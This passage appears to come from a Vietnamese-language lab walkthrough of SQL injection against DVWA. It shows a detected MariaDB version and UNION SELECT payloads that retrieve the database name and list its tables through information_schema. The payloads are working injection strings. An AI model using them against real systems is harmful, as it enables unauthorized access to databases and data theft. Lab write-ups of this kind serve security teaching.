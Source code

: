     > Phiên bản *DBMS*: **11.8.1-MariaDB-4**

   - Kiểm tra tên `database`:

     ```
     1' UNION SELECT NULL, database() -- -
     ```
     ![](./images/11-59-21.png)
     
    > Tên database là ***dvwa***

   - Liệt kê tên các **tables** có trong database hiện tại:

     ```
      1' union select null, table_name from information_schema.tables where table_schema=database() -- -
     ```
     ![](./images/12-23-00.png)
     
